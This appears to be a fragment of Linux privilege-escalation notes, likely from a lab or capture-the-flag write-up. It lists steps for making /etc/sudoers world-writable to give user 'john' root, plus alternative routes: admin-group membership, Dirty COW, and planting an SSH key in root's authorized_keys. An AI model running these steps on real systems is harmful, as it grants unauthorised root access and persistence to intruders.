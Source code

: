 1. `chmod 777 /etc/sudoers`
2. Add `john` with full privileges
3. `chmod 4400 /etc/sudoers`

`sudo su -` as `john` gives **root**.

##  Alternative Routes

* `usermod -a -G admin john`
* Dirty COW
* Add an SSH key as root to `/root/.ssh/authorized_keys`



  [464d8d1a]: https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/ "Linux Shell Escapes"
